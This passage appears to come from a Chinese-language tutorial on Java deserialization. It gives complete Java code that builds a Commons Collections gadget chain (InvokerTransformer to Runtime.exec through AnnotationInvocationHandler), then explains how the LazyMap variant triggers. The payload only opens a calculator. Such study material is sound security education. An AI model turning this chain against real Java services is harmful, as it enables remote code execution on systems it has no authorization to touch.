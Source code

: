 生成payload的完整代码如下
```java
private static Object createPayload() throws Exception {
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),

            new InvokerTransformer("getMethod",
                    new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),

            new InvokerTransformer("invoke",
                    new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),

            new InvokerTransformer("exec",
                    new Class[]{String.class},
                    new Object[]{"open /Applications/Calculator.app"}),
    };

    Transformer transformerChain = new ChainedTransformer(transformers);
    Map innerMap = new HashMap();
    innerMap.put("value", "a");
    Map outMap = TransformedMap.decorate(innerMap, null, transformerChain);
    Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    Object instance = constructor.newInstance(Target.class, outMap);
    return instance;
}
```


#### LazyMap

通过LazyMap和AnnotationInvocationHandler来触发transform函数

LazyMap的触发方式用到了java动态代理方面的知识

大概意思就是当代理对象的方法被调用的时候，就会执行对应InvocationHandler的invoke方法

当使用LazyMap的get方法获取键值时，如果没有获取到对应的值，就会调用LazyMap的transform方法，接下来就需要找到一个调用方法的地方

AnnotationInvocationHandler中的invoke方法刚好调用了输入参数的get方法，所以只要调用了AnnotationInvocationHandler的invoke方法并且var4符合一定条件即可出发漏洞。
